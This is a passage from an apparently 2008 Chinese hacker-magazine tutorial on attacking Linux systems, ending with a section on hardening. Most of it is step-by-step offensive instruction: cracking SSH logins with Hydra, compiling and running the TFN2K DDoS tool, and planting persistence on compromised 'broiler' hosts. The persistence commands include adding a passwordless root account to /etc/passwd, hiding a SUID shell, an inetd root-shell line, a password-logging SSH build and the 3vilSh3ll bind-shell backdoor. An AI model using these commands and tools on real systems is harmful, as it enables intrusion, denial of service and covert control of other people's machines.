- -l 使用标准输出列的缓冲区。
- -n 不把主机的网络地址转换成名字。
- -N 不列出域名。
- -O 不将数据包编码最优化。
- -p 不让网络界面进入混杂模式。
- -q 快速输出，仅列出少数的传输协议信息。
- -r<数据包文件> 从指定的文件读取数据包数据。
- -s<数据包大小> 设置每个数据包的大小。
- -S 用绝对而非相对数值列出 TCP 关联数。
- -t 在每列倾倒资料上不显示时间戳记。
- -tt 在每列倾倒资料上显示未经格式化的时间戳记。
- -T<数据包类型> 强制将表达方式所指定的数据包转译成设置的数据包类型。
- -v 详细显示指令执行过程。
- -vv 更详细显示指令执行过程。
- -x 用十六进制编码列出数据包资料。
- -w<数据包文件> 把数据包数据写入指定的文件。

除了这些参数以外，你还要通过一些关键字来控制程序的运行，这些包括 host、net、port，分别用来指定主机、网络和端口。还有限制传输方向的关键字，像 src、dst、dst or src、dst and src，分别表示源地址、目标地址、源地址或者目标地址、源地址和目标地址。

你还可以加入协议的关键字来限定协议，如果你有设置这些选项，那程序就会自动匹配选项来捕获你需要的数据包，比如我要捕获源地址是 192.168.0.1 的主机 TCP 80 端口发送的数据，输出到文件 dat，只要用命令“tcpdump tcp port 80 host 192.168.0.1 -w dat”，是不是也很简单？捕获到的数据你可以用专门的软件分析，方便得很哦。

tcpdump 虽然强大，但对于新手刚从 Windows 过来的话，对命令行下的数据捕获和分析肯定感到很困难。这里就给大家介绍一个 GUI 下的嗅探器“Wireshark”，如图26，是它捕获数据后的界面。


图26  Wireshark 的界面

它的数据展示方式类似 Iris，对协议都有分析，是不是很熟悉？这里顺便提一下，你可以用 Wireshark 打开你用 tcpdump 保存的数据包来进行分析哦。

Wireshark 的用法也很简单，首先你要选择使用哪个网络接口，点菜单中的“Capture”，选择“Interfaces”选项（或者第一个图标）打开网络接口选择界面，如图27。


图27  选择网络接口

我们可以点“开始”直接用默认规则捕获数据，也可以选择“Options”打开捕获选项的窗口，如图28，都是常规设置，你可以点击“Capture Filter”按钮打开筛选器设置过滤规则，如图29。


图28  捕获选项


图29　设置过滤规则

无论从功能上还是使用上，这款都是最适合菜鸟的嗅探器，但这并不是说你可以把 tcpdump 放到一边了，如果你要通过 shell 嗅探肉鸡的数据怎么办？tcpdump 长盛不衰是有原因的。

#### 3.4 密码破解

密码破解是黑客的基本技能之一，密码破解工具也有很多，一般的密码破解可分为本地密码破解和远程密码破解。破解本地密码，如系统登录密码，最有名的就是 john 了，当你拿到密码档之后，就可以用这个工具进行暴力破解。

john 的用法是“john 参数 密码档”，参数决定你要使用什么破解方式，常用的是“--single”、“--wordlist”和“--users”。

single 是最简单的猜解模式，它会根据用户名简单的变化来破解密码；如果你的用户名和密码是“root:root888”这样的设置，很容易用这种方法得到。wordlist 就是使用字典文件，对于字典文件大家都不陌生吧？users 参数可以让你确定要破解哪个账号，也是很有用的。

举个例子吧，假如我拿到了一台 Linux 主机的 passwd 文档，想用字典破解出其中 root 的密码，可以用命令“john --users:root --wordlist:pass passwd”，如图30，很简单的。

> 小提示：你拿到的如果是 passwd 和 shadow，需要用命令“pwunconv”将它们合并后再使用。


图30　使用 john 的简单例子

下面我们来看一款网络密码破解工具，这款工具就是“Hydra”，它支持很多网络协议，绝对够用，除了像 TELNET、FTP、HTTP、HTTPS、SMB、MS-SQL、MySQL、VNC、POP3、SSH2 等协议外，甚至还支持 Cisco 的协议。而且它的另一个特点就是速度快，这可是破解很重要的。Hydra 还支持 SSL，所以说它是一款不可多得的好工具，它可以在安装了 cygwin 的 Windows 操作系统中使用（也有高手打包好的 Windows 版）。Hydra 也是命令行下的工具，但它也有一个很简洁易用的 GUI 前端程序，非常方便小菜。

先看看命令行的用法，它的命令格式为 **“hydra 参数 服务器 服务”**，服务器就是你要破解的目标，服务就是要破解的协议。先看看几个经常用的参数，然后再看几个例子。

- `-R`：恢复上次停止的破解进度，继续破解
- `-S`：使用 SSL 连接
- `-s 端口号`：在这里自定义要破解的端口号，不写就使用默认端口
- `-l 登录名` 或者 `-L 字典`：使用登录名或者从字典中获取登录名
- `-p 密码` 或者 `-P 字典`：使用单个密码或者从字典中获取密码列表
- `-C 文件`：使用冒号分割格式的文件来破解，如“登录名:密码”
- `-M 文件`：IP 列表，一行一条
- `-o 文件`：将找到的密码输出到文件
- `-f`：在使用 `-M` 参数以后，找到第一对登录名或者密码的时候中止破解
- `-v`：详细显示用户名或者密码的破解过程

比如说我们要破解 `192.168.0.227` 上的 ssh 的 root 登录密码，就可以用命令 **“hydra -l root -P pass 192.168.0.227 ssh2”**，其中 pass 是密码字典，如图31。同样的，如果你要破解 ftp 密码，只需要将“ssh2”改成“ftp”就可以了，破解 smb 就改成“smb”。


Hydra 的 GUI 前端程序比较好的是“hydraGTK”，界面如图32所示。


它的设置是通过标签一路下来的。首先设置的是目标，就是你要破解的主机地址，还可以设置端口等。然后在“Protocol”选项中选择协议类型，接着依次进入后面的标签设置密码文件、代理等其它选项。最后一个标签页就可以开始破解了，破解的结果会显示出来，如图33。

## 非安全·黑客手册2008第一增刊

最后，非常不幸的是，Ubuntu 默认的源里面没有这个软件，也就是说你要自己下载，然后编译安装。你可以到 “http://freeworld.thc.org/releases/hydra-5.4-src.tar.gz” 下载这个软件（光盘中已经收录，并且收录了一个 Windows 版本），在 Ubuntu 下，可以用火狐来下载，然后解压进入安装步骤。当然，你也可以在命令行下完成，用 wget 下载，命令为 “wget "http://freeworld.thc.org/releases/hydra-5.4-src.tar.gz" -O "hydra.tar.gz"”，将软件包下载，存为 “hydra.tar.gz”，如图34。

```bash
wget "http://freeworld.thc.org/releases/hydra-5.4-src.tar.gz" -O "hydra.tar.gz"
```

下载完成后用命令 “tar -zxvf hydra.tar.gz” 将文件解压缩，先别忙着编译，在编译之前你还需要执行命令 “sudo apt-get install build-essential” 来安装编译环境。然后，你还需要安装 hydra 所需要的几个组件，命令为 “sudo apt-get install libssl-dev libssh2-dev libsvn-dev”（这几个是 Ubuntu 默认安装下缺少的）。

```bash
tar -zxvf hydra.tar.gz
sudo apt-get install build-essential
sudo apt-get install libssl-dev libssh2-dev libsvn-dev
```

接着 cd 进刚解压出来的 “hydra-5.4-src” 目录，依次执行如下命令（“#” 后面为命令部分，也就是 “./configure”、“make”、“make install”）：

```bash
cd hydra-5.4-src
./configure
make
make install
```

安装完成后，你就可以使用 hydra 的强大功能了。以上任何一步都有可能导致你的编译失败，这时候就只能靠你自己了。仔细看看错误提示，然后分析一下是哪个原因造成的。一般比较多的是缺少某些组件，你只要找到并安装好，重新编译就可以了。

如果是某些声明之类的问题，就很有可能是由于组件版本问题，所以对菜鸟来说，编译很难，问题就出在这里。以后不要问别人：在你机器上跑得好好的，怎么到自己电脑上就不能用了？仔细查找问题吧，这种问题遇到几个之后就会有经验了。

#### 3.5 远程控制

首先要说明的是，这里的远程控制是指正规的远程管理，而不是黑客的“控制”。大部分的 Linux 服务器都启用了远程管理功能，而这些不仅方便了管理员，也方便了黑客。

目前使用得最广泛的，应该就是 SSH 和 VNC 了，一个用于控制台连接，一个用于 GUI。在 Ubuntu 中，要开启 SSH 是很简单的，只需要执行命令 `sudo apt-get install ssh`，然后你就可以通过任何 ssh 客户端登录你的系统了。而要登录一个 ssh 服务器，你可以用命令 `ssh -l 用户名 服务器`，退出直接输入 `exit` 命令就可以了。如图35，是我通过 Ubuntu 终端登录 BT 的 SSH，然后退出的过程。SSH 登录后你就可以像用自己的终端一样控制远程主机了。

对于 VNC 在 Ubuntu 下的开启，那可更简单了，相关组件默认是安装好的，你只需要开启 VNC 功能就可以了。打开菜单的“系统”－“首选项”，找到“远程桌面”，就可以看到如图36的窗口了。将“允许其他人查看您的桌面”选中，再设置一个密码就可以了。

要登录一个开启 VNC 的服务器，你可以选择菜单中“应用程序”－“互联网”－“远程桌面查看器”，打开远程桌面查看器，然后点“连接”，在窗口中输入服务器 IP 地址，连接后程序会询问你服务器密码，登录后就可以看到远程桌面了，如图37。

使用 Linux 肯定会或多或少接触到这两个工具，如果你的服务器开了这两个服务，对黑客来说无疑是多了一条通向成功的道路。用上文提到的 hydra 可以很方便地猜解这两个服务的口令，所以你要使用这些功能，一定要把口令设得更复杂一些。

#### 3.6 拒绝服务

也就是传说中的 DoS，用 DoS 攻击是会被鄙视的，但不可否认这的确是一个有效的攻击方式。这里就拿一个重量级的 DDoS 工具来做讲解，那就是“TFN2K”，它当年可有让 Yahoo、eBay 等大型网络付出惨痛代价的辉煌战绩。不过风飘强烈严正提醒：本软件仅用来学习研究，佛说，做人要厚道。

**TFN2K 程序包括两部分**，一个服务端“td”，放到别的电脑上实现分布攻击，一个客户端“tfn”，用来控制服务端。

这种软件 Ubuntu 的源里面当然不会有，所以我们要自己下载源代码自己编译，代码包已经收录到光盘中了，名为“tfn2k.tgz”。我们先将它解压，用命令“tar -zxvf tfn2k.tgz”，解压后进入解出来的文件夹“tfn2k”，如图38。

由于 tfn2k 默认支持的就是 Linux 系统，所以不需要修改配置，但编译前还有个小问题要修复。由于源代码中的 in_addr 过程有重定义，所以要注释掉。输入命令“vi src/ip.h”，用 vi 打开 src 下的 ip.h 文件（还记得前面讲的 vi 的用法吗？），在里面找到如下代码：

```c
#ifndef in_addr_t
struct in_addr
{
    unsigned long int s_addr;
};
#endif
```

将其修改成：

```c
#ifndef in_addr
/* ... */
struct in_addr
{
    unsigned long int s_addr;
};
/* ... */
#endif
```

保存后退出，回到 tfn2k 目录下，然后你就可以输入“make”命令编译源代码了。在编译过程中程序会要求你输入一个 8 到 32 位的密码，这个密码就是你以后控制服务端的密码，如图39。输入完后就会一路完成编译（本想打个 deb 包给小菜用，后来想：如果老用别人准备好的工具，自己就永远不会进步，而且 tfn2k 的编译很简单，小菜们自己来动手吧）。

完成之后你就可以在 tfn2k 目录下发现多了两个文件，“td”和“tfn”。先在自己电脑上试试看，运行服务端，在“tfn2k”目录下用命令“./td”打开服务端，然后就可以连接了，命令为“./tfn -h 127.0.0.1 -c 10 -i "touch /root/rain"”。如果程序没有问题，就会在“/root/”下建立文件“rain”，执行结果如图40。呵呵，事实证明我们的编译无比正确。

下面说一下使用参数，最常用的就是“-h”，用这个参数你可以指定唯一的一个服务端（就是运行 td 的计算机）的地址。要实施大规模攻击，就要有很多服务端，这时你就可以把服务端的 IP 写进一个文件中，如 IP.txt，然后通过“-f IP列表文件”来指定多个服务端。接着用“-c”参数指定攻击模式，这是个很关键的参数，它的选项如下：

- 0：停止攻击，这是默认的。
- 1：IP 欺骗的等级设定。TFN 在攻击的时候所发出的数据包源地址是随机的，但由于一些 ISP 等的限制，并不是所有 IP 包都能被发送，所以设置这个选项，等级 0 到 3，由参数 i 具体指定。
- 2：改变数据包的尺寸，缺省的 ICMP/8、smurf 和 udp 攻击缺省使用最小包，你可以通过这个选项改变它的大小，用参数 i 指定大小。
- 3：绑定 root shell。启动一个会话服务，然后你连接一个指定端口就可以得到一个 root shell，用参数 i 指定端口。
- 4：UDP 洪水攻击。攻击的原理简单地说，就是每个 udp 包被发送往三个关闭的端口，这样就会有一个 ICMP 不可到达的信息返回，增加了攻击的能力。
- 5：SYN 洪水攻击。这个大家应该最熟悉了，不需要多解释了，传统中的标准拒绝服务攻击，用 -h 指定目标，-p 指定端口。
- 6：ICMP 响应（ping）攻击。这个攻击发送虚假地址的 ping 请求，目标主机会送相同大小的响应包，用 -h 指定目标。
- 7：SMURF 攻击。用目标主机的地址发送 ping 请求以广播放大，这样目标主机将得到大量回复数据。用 -h 指定目标。
- 8：MIX 攻击。交替发送 udp、syn 和 icmp 包，常用来对付路由、防火墙、IDS 等，用 -h 指定目标。
- 9：TARGA3 攻击。同样的，也是用 -h 指定目标。
- 10：远程命令执行。如上面的例子，这是个很有用的命令。有了它你只要把 td 藏好，就不需要在肉鸡上开启后门了。用 -i 指定要执行的命令。

现在能看懂前面测试用的命令了吧？另外，光盘中还附带了更早的一个版本（好像 WIN2K 的攻击效果不太好，那就用旧版本吧），并且有一个很有意思的小 DoS 代码，给大家研究一下，简单的 gcc 编译就可以用了。

#### 3.7 缓冲区溢出

这是很古老而且很有效的入侵方法，我就不多费口舌了。关于 exploit，相信大家在 Windows 下已经用得很熟练了。Linux 下的 exploit 和 Windows 下的没有多少区别，只不过环境不同罢了。在 Windows 下，一般你拿到的是已经编译好的程序，如果是源代码，可以用 cygwin 编译。在 Linux 下，不同的地方就是你可以直接编译源代码，并且 Linux 下的 exploit 很多是直接用脚本写成的，比较常见的是 perl 和 python。这种 exploit 不需要编译，直接用相应的解释器执行就可以了。

给大家一个简单的小例子吧，就说 Quick tftp 的 0day 漏洞吧。它是用 python 写的，所以你要做的，只是把代码复制下来保存到文件，如 tftp_exp，然后用 vi 编辑这个文件，将里面的 IP 地址等改成你需要的，接着直接在终端中执行这个脚本，攻击数据就发送出去了。能写 exploit 的可以说都是高手，而利用 exploit 就是很简单的事情了。

再给大家推荐一个好东西——Metasploit Framework，也许你在 Windows 下也用过它，现在最新的版本是 3.1，官方网站是 http://metasploit.com/framework/。

Metasploit Framework（下文简称 MSF）是一个缓冲区溢出测试使用的辅助工具，它集成了各平台上常见的溢出漏洞和流行的 shellcode，并且不断更新，使得缓冲区溢出测试变得方便和简单，是做渗透测试的最好平台。

在 BT3 中已经集成了 MSF3，不过用之前最好“MSFUpdate”一下，取得最新的漏洞信息。MSF3 可以通过浏览器使用，这需要打开 Msfweb，然后你就可以通过 http://127.0.0.1:55555 使用了，如图41。

可以看到上面有各种按钮，选择“exploit”就能打开 exploit 列表，你可以搜索需要的程序，然后按它的向导一步一步来就可以轻松完成溢出。第一步选择目标类型，然后就是选择特定的 shellcode，最后是相关的信息填写，像目标的 IP 地址等，接着就会自动完成溢出，如图42。

新版的 MSF 提供了一个 GUI 界面，个人感觉这个比 Web 更好一些，当然，操作过程是一样的，界面如图43。使用 MSF 能方便你查找和使用 exploit，这给小菜带来不少美妙的体验，呵呵。

另外，光盘里收录了 7 月的所有 exploit 给大家，不过可能等你买到本书时已经过了有效利用期，没关系，给大家推荐一个网站，上面有最新的 exploit，你会喜欢的，地址是：http://milw0rm.com/

攻击方法还有很多，这些只是我们经常用到的。Linux 下的攻击很灵活，要成为高手，就不能只死学方法，这些只是基本的手段，你要灵活地运用达到你的目的。

### 第四部分 Linux 后门艺术

有人把 Linux 下的后门隐藏称作是一种艺术，的确是这样，因为只要你有权限，Linux 给了你太多的自由空间。你可以以任何有过的、没有过的、古老的、先进的，甚至是变态的方法隐藏你的后门。每个人都可以有完全不同的方法，最简单的，如直接添加用户；复杂的，如修改系统内核；最 BT 的，如目前有顶级高手正在研发的重新刷写计算机固件……

实际应用中的优秀后门都是要你根据实际情况来制定的，比如根据对方的服务和版本、配置文件的信息，然后用一些特殊的方法留下特殊的后门。当然，也有一些通用的后门方案。

### 小提示

一般来说，后门都是你取得 root 权限后放的。如果你只是用户权限，那你只能通过修改这个用户的配置或者文件来实现设置针对这个用户的后门，最多也就只能取得这个用户的权限。

#### 4.1 一般后门

之所以这么说，是因为这些后门都已经比较普通了，比如最简单的就是添加一个空密码的管理员账号，但比较容易被管理员发现。Linux 中用户信息都保存在“/etc/passwd”文件中，并且 root 的 UID 是固定的“0”。这就好办了，网上有一种方法，就是你可以直接往“/etc/passwd”中添加一条用户记录，可以用 vi，也可以直接用如下命令：

```bash
echo "rain:0:0::/:/bin/bash" >> /etc/passwd
echo "rain::..." >> /etc/shadow
```

这样就创建了一个用户名为“rain”、密码为空的 root 权限账号了。这样做其实很正确，但对于现在的系统，出于安全考虑，很多时候是禁止空密码远程登录的（所有机器不一定都这样）。也就是说，你这样创建的用户很有可能本地登录没问题，但你 SSH 怎么也连不过去。所以保险一点，你还是用命令“passwd”给刚才添加的用户设置一个密码吧。

这种方法的确有点“低级”，只要管理员查一下用户就能找到你。然后把你的 shell 指向一个 IPS，直接对你的入侵进行取证，你就只有向耶稣祈祷了。

还有一种常用的取得 root 后门的方法，就是利用 SUID。用这种后门一般是在你拥有一个合法的普通用户，或者不合法但能长久使用的普通用户的基础上的，因为你首先要登录服务器，然后可以利用这种后门直接取得 root 权限（很多本地溢出程序也是利用这个来提权的）。

### 小知识

所谓的 SUID 是 Linux 下的一种权限，SUID 的程序执行时会以程序所有者的身份运行，而不是使用者。所以说你可以用 passwd 修改自己的密码，密码档只有 root 可写，passwd 就是一个 SUID 程序。你运行它，就可以以 root 身份修改密码档。

这种后门的设置方法就很多了，你可以把你的 shell，比如“/bin/bash”用 cp 命令复制到一个隐藏的文件夹，比如“cp /bin/bash /home/rain/.ssh/config.ini”（复制成这个名字很迷惑人吧？就算管理员看到了，只要不查看详细属性也是不会发现的，有些没有经验的管理员看到属性也不会觉得有问题）。然后用命令“chmod u+s /home/rain/.ssh/config.ini”，这样每次你想得到一个 root 的 shell，只要执行这个“config.ini”就可以了。

这种方法虽然隐蔽性好一些，但有责任感的管理员一般都会定期查看系统里所有的 SUID 程序（这么勤快的人也许不多，但总是有的），还是有可能被发现。

#### 4.2 高级后门

佛说，没有后门就是最好的后门。我们玩后门也要达到这种境界，就是不留任何后门。那我们怎么进系统呢？笨啊，直接用 root 的密码啊。我们可以拿到 passwd 和 shadow 档，然后用 john 破解出 root 的密码。如果你觉得这样麻烦，那就用 tcpdump 嗅探，等 root 登录吧！如果 root 用 SSH？那就把他的 shell 换成一个能记录密码的脚本……总之方法很多，根据情况随意发挥吧。你想啊，如果你的服务器一切正常，没发现什么木马后门，哪个管理员会闲着没事改密码玩？除非 Boss 有规定！但国内有这样规定的企业单位有几家？

### 小提示

软件包里给大家收录了一个不错的 SSH 后门（openssh-4.6p1-backdoored.tar.gz），它可以记录下所有用 SSH 登录的账号和密码，用它替换掉服务器上的 SSH 就可以记录 root 的密码了。它的编译也是老规矩，“./configure”和“make”。

还有一种被一般的高手使用的方法，就是替换原本的程序。比如用自己的后门程序替换掉不怎么用的守护进程，或常用的系统命令。更有效的是替换掉网络登录程序，像 SSHD（一些 rootkit 也是这么做的，在介绍 rootkit 时再详细介绍）。

另外，也可以更改管理员的配置文件或者用于日常管理的 shell 脚本，这些脚本的内容很少有人会检查的，里面加入一两行你的后门代码是很难发现的。一般的高手也会自己修改编译你系统中的命令，比如常用的 ls 命令，只要在源代码中取得 ignore 之后增加一小段代码，如“if (!strcmp(next->d_name,".nohack")) { return 0;}”，然后重新编译 ls。以后你用 ls 列目录的时候，名字为“.nohack”的目录就不会被显示了，但可以通过 cd 进去。我们不讲编程，这里的细节就略过了。

举个简单的例子，比如老版本的 Linux 你可以修改 /etc/inetd.conf 文件，添加或修改一条记录，如修改比较常被利用的 daytime（这个服务被修改对系统没什么影响），将它改成“stream tcp nowait /bin/sh sh -i”，这样你就有一个 shell 了。

如果是使用的 Ubuntu，你就需要更改“/etc/init.d”里的文件，替换原来的程序也可以，添加一个新的服务也可以，里面东西那么多，名字起得迷惑一点，很难被发现的。或者对方开了 SSH 服务，那你把自己的公共密钥放到目标机器的 ssh 配置文件“authorized_keys”里，你就可以用该账号来访问机器而不需要密码。一般来说，不看日志，管理员是不会发现的。

或者，你也可以将 root 的某个程序或者配置文件的权限改为其他组可写，这样的修改是不会引起很大注意的，但却又给你留下了一个很好的后门，需要的时候你就可以通过修改这些配置文件来达到你的目的。比如将某个 root 的程序替换成木马，或者通过修改 KDE 的配置让 root 登录就自动加载你的木马。这两种方法过于灵活，就不详细举例子了，你只有看情况灵活运用。实际上还有一种比较常见的后门方式，就是 Cron 后门，类似 Windows 下的计划任务后门。由于这个东西用得越来越少，就不详细介绍了。

上面只是设置后门的方法，因为在 Linux 中的后门不像 Windows 下的那样，会自动安装到系统中（至少不全是）。一般的 Linux 后门仅提供后门功能，需要你自己设置加载方式，这样做的好处就是更灵活，也更不容易被发现。而且 Linux 下的后门基本都是提供源代码的，你可以根据需要修改成更适合你服务器的环境。

给大家一个简单的后门做研究吧，3vilSh3ll.c，这是前段时间刚发布的一个简单的连接绑定后门，算是个基本框架，只实现了基本功能，并且非常容易修改和完善，所以拿来给大家研究（该文件已收录在光盘中）。

一般拿到源代码，都要先读一下 README 文件，了解一下这个代码的特点和相关配置。

如果代码简单，这些信息一般就会写在代码当中，所以编译之前要先看看。用 vi 打开后就能找到配置选项了，如图 44。

很明显，“#define PORT 8000”就是设置监听端口为 8000，下面是设置连接后的提示语；而“#define MAGIC_KEY "hacked"”就是连接密码了，密码是 hacked，改成你的吧，下面的东西就不要碰了。

```
gcc -g -W -Wall -Wextra -o backdoor 3vilSh3ll.c
```

修改完成之后，直接用命令来编译，编译完成后就会生成一个“backdoor”可执行文件了，这个就是你的后门，拿到肉鸡上藏好吧。

我编译的时候把端口改成了 16000，密码改为“nohack”，现在用 nc 来连接一下吧，如图 45。


可以看到连接之后要求输入密码，输入 nohack，出现“Passwd accpet connect ...”表示连接成功了，这时并没有出现提示符，但你输入的命令还是执行的，你已经有一个 shell 了。至于代码的修改，这就是 C 语言老师要讲的了，我就不在这里浪费版面了。最后再给大家一个 perl 脚本写的支持 HTTP 访问的后门，挺有意思的，已经收录到光盘，文件为：httpbd_pl.txt。

## 4.3 rootkit

很多高手留后门都是自己写脚本，或者修改后门代码；或者有一些更特别的方法，比如修改共享库文件，加入黑客代码；或者修改常用的系统函数，让 root 在编译程序的时候将后门代码自己编译执行；或者利用可加载内核模块，这有点类似 Windows 下的驱动级木马了……这些后门都是量身定做的，我们小菜要用就没那么容易了。不过万幸的是，那些高手没有忘记我们，为我们准备了功能强大的“rootkit”。

现在 Rootkit 一般是以 LKM（就是上文提到的可加载内核模块）加载到内核执行的，它的主要作用就是隐藏黑客的踪迹，让你保持 root 权限。你要以 root 来安装，这是显而易见的。它可以隐藏你的文件、进程、网络连接等你想隐藏的一切。当然，不同的 rootkit 功能也有所不同。上文提到的一些后门方式也可以通过 rootkit 来实现，不用你自己编译要替换的程序了。

rootkit 中名气最大的就是 lrk 了，传说已经有 lrk6，但很少有人见过，一般是 lrk5。把它上传到肉鸡上 tar 解压，然后老规矩“./configure”和“make”。另外，光盘中也有几个其它的 rootkit，大家可以用用。

但是你别高兴得太早，一般这些东西都是在肉鸡上编译的，并且 rootkit 对内核要求也高，很多都算是“专用”的，所以不一定能适合你，这可不像 Windows 下的 rootkit（Windows 下的内核和关键东西都是固定的，高人做好了给菜鸟当超级武器很合适）。Linux 下的 rootkit 只有在高手手里才能发挥最大威力，如果你没有一定能力，在肉鸡上能不能编译出来都是问题。

### 第五部分 Linux 安全方案

攻和防是对立的，又是统一的。知道怎样攻击，也要知道怎样防止攻击。对于一般的桌面用户，可以说直接用就已经很安全了，至少近段时间不需要担心木马病毒之类的问题，所以这里的讨论主要针对服务器或其它有安全要求的主机。关于 Linux 的安全设置可不是几句话就能说完的，一些小细节我就不啰嗦了，还是看看几个比较重要的地方。

#### 5.1 安全设置

- 1、像密码要设置得复杂些，系统不要忘记升级这种常识就直接略过了，首先最重要的，就是不要开不必要的服务！相信你在 Windows 下也是这么做的。

Ubuntu 下如果你还不习惯手工更改 init.d 文件，那么你可以用命令来删除某个服务：

```
sudo update-rc.d 服务名 remove
```

不同的发行版，默认的服务不完全相同，但至少服务器版本中的服务都已经优化过了。不过有些服务你如果用不到，还是可以停掉。

对于服务器，下面的服务一般是可以停掉的，大家视自己情况而定：

- **alsa**：声音子系统。服务器应该不用开启它，如果你是自己玩，还是留着。
- **alsa-utils**：这个服务似乎取代了 alsa，所以和上一个同样对待。
- **anacron**：这是一个用于执行到时间没有执行的程序的服务。
- **apmd**：电源管理，不是很老的电源就没有开启的必要了。
- **atd**：和 anacron 类似。
- **bluez-utils**：传说中的蓝牙服务。
- **cupsys**：打印机服务。
- **dns-clean**：拨号连接用的。
- **fetchmail**：用于邮件守护，一个人管服务器肯定用不到这个。
- **hotkey-setup**：这个是给某些品牌笔记本设计的热键映射。
- **hotplug**：这个是用于热插拔，关了吧。
- **hplip**：HP 打印机用的，关了它。
- **ntp-server**：与 Ubuntu 时间服务器进行同步。
- **pcmcia**：激活 pcmcia 设备。你有这种东西吗？
- **ppp**：拨号用的，ppp-dns 也一样，根据需要设置吧。

- 2、远程登录采用加密通道，推荐使用 SSH，很好的选择。而如果你要使用 VNC，那也把加密打开，这样可以有效防止信息被嗅探截取。在 Ubuntu 下你只要在“远程桌面首选项”的“高级”选项中选择“要求加密”就可以了。

- 3、修改端口和欢迎语。这当然是为了迷惑入侵者，增加他们的难度，如果你把 SSH 伪冒成 DNS，让别人用 BIND 的 exploit 溢出你吧。修改 SSH 端口可以用 vi 编辑“/etc/ssh/sshd_config”，把“Port”设成你要的端口。而一些服务的欢迎语也可以迷惑对方，比如 proftpd，你可以修改它的配置文件 proftpd.conf，在里面添加“ServerIdent on "Serv-U FTP Server v5.0 for WinSock ready..."”，这样就仿冒成 Serv-U 了。

- 4、限制登录。除非非常必要，否则不要以 root 登录系统，需要的时候可以使用“sudo”或者“su”。服务器最好限制 root 的直接登录，而采用一个不起眼的名字管理服务器，这样至少不给入侵者直接暴力破解密码的机会。SSH 中限制 root 登录可以修改它的配置文件“/etc/ssh/sshd_config”，将“PermitRootLogin”设置为“no”，同时也要加强对其他用户的审核。

- 5、注意文件和文件夹的权限。要注意的地方有两个，一个是 root 所有的文件和配置文件是否对其他人可写？如果是，那你的系统应该出问题了。另一个要注意的就是 SUID 和 SGID 程序，检查是否有衍生的这类程序出现。比较极端但保险的方式是删除（或取消 SUID）除了“su”以外的所有 SUID 程序。这样虽然很多功能不能用，但至少系统会安全。

- 6、注意检查文件完整性。简单地说就是检查文件是否被人修改过，包括内容和权限，特别要注意系统里的 SUID 和 SGID 程序。你可以用命令 `find / -type f -perm +6000 > findsuid.txt` 将这些程序保存到一个文件列表，然后定期列一下系统中的 SUID 程序，跟列表对比，就能发现那些程序出问题了。对于文件（包括程序和命令）内容的检查，做法也差不多，你可以用 `md5sum` 对所有文件进行 MD5 校验，保存到文件，然后定期检查对比。

- 7、启用防火墙和入侵检测系统。为什么要这样就不需要说明了吧？关于防火墙和 IPS 在后面会讲到，这里只是友情提示一下。在服务器上选择好防火墙，认真配置一下 iptables 就足够了，很强大但不会给你的系统带来什么负担；如果你要安装杀毒软件，最好安装能同时查杀 Windows 下病毒的。虽然你不会中毒，但也不要让你的服务器成为病毒扩散的帮凶。

- 8、适当使用文件属性。人们往往看重文件的权限，但不要忘了文件还有“属性”。有时候很好地利用文件属性也能保护你的系统，如使用以下命令（要用 ext2/3 哦）：

```
chattr +i /etc/passwd
chattr +i /etc/shadow
chattr +i /etc/group
chattr +i /etc/gshadow
```

这样就给这几个文件增加了“i”属性，这个属性的意思就是禁止修改文件内容，这样就算是 root 也没法添加和修改用户了。如图 46，在设置之后，我用三种方法增加新用户都失败了。


图 46 设置属性

这种方法看似强悍，其实只能阻挡一些缺乏经验的人侵者。如果你 Hacking 的时候遇到这个问题，而你又有 root 权限，那你就应该能意识到这是文件属性在作怪，你只需要用命令 `chattr -i 文件名` 将有“i”属性文件的“i”属性删除就可以修改文件了。

下面是几个常用的属性，用“+”增加这个属性，“-”取消属性，“=”就是赋予这个属性，原先属性会被删除。

- `S`（大写）Sync。一旦应用程序对这个文件执行了写操作，系统立刻把修改的结果写到磁盘。这个属性你可以加在重要的文件中，这样可以在异常断电等情况下不会让文件丢失。
- `a` Append Only。系统只允许在这个文件之后追加数据，不允许任何进程覆盖或者截断这个文件。如果目录具有这个属性，系统将只允许在这个目录下建立和修改文件，而不允许删除任何文件。
- `i` Immutable。系统不允许对这个文件进行任何的修改。如果目录具有这个属性，那么任何的进程只能修改目录之下的文件，而不允许建立和删除文件。
- `d` No dump。在进行文件系统备份时，dump 程序将忽略这个文件。

### 小提示

文件属性还有其它的标志，但有不少已经被新的内核抛弃了（因为不常用），如“s”、“u”等，但这几个是支持的。另外，注意大小写哦！“s”和“S”是两个不同的属性。再补充一点，你可以用“-R”参数递归修改整个目录，方便操作。

- 9、留心日志，而不是出问题之后才去看它。Linux 中的系统日志由 syslogd 监控程序处理，其配置文件是 `/etc/syslog.conf`。在配置文件中，可以指明什么工具或程序需要记录信息（比如 cron、daemon 或电子邮件等），什么级别的信息需要写入日志（比如 debug、info 或警告等），以及如何处理这些信息（添加到日志文件或发送到打印机等）。不要用默认，而是需要根据你的情况重点配置。如果有条件的话，最好将日志记录在其它计算机上，这样即使被人入侵你也能找到入侵者。

但是，对于普通用户而言，每天处理大量的日志文件是很头痛的事，给大家推荐个工具——Logwatch，它可以定期对系统的日志文件进行分析，然后根据分析结果创建一个分析报告，通过电子邮件发给 root。看报告要比看代码找问题容易多了吧？在 Ubuntu 下你可以用命令 `sudo apt-get install logwatch` 来安装它，安装的时候会询问你报告发送的方式，自己选择吧。

- 10、注意备份。不仅仅是数据的备份，更重要的是系统的备份，最好在安装好系统、基本配置好之后就将整个系统 dump 下来（你订购 ghost 我也没话说），并且为每个文件做一次 MD5 校验，将记录保存到其它地方（连同 md5sum），如 U 盘。这样，以后一旦系统被入侵，你可以在最短的时间内查找到黑客都对你做了什么，并且恢复过来。

- 11、选择最适合自己的系统。这听上去有点废话，但不得不承认这是目前中小型网络普遍存在的问题。并不是系统越强大，功能越多，就是越好！组件越多，意味着隐患越多！实际中是要根据需要来选择的。比如你现在只需要一台网络存储服务器，费那么大力气配置一个完整的 Linux 系统，又设置这个设置那个，何必呢？你完全可以使用“专用”的操作系统，比如 Openfiler。这是经过极度精简和优化的系统，只提供网络存储服务，安全性很高，资源占用等方面都要好很多。安装好后通过浏览器就可以方便地设置和使用，如果让你选，哪个更好呢？

#### 5.2 防火墙

虽然说 Linux 不会像 Windows 一样没事开一堆端口等着你入侵，但作为服务器，配置一个好的防火墙还是很必要的。说到防火墙，就不能不说 iptables。

### 小知识

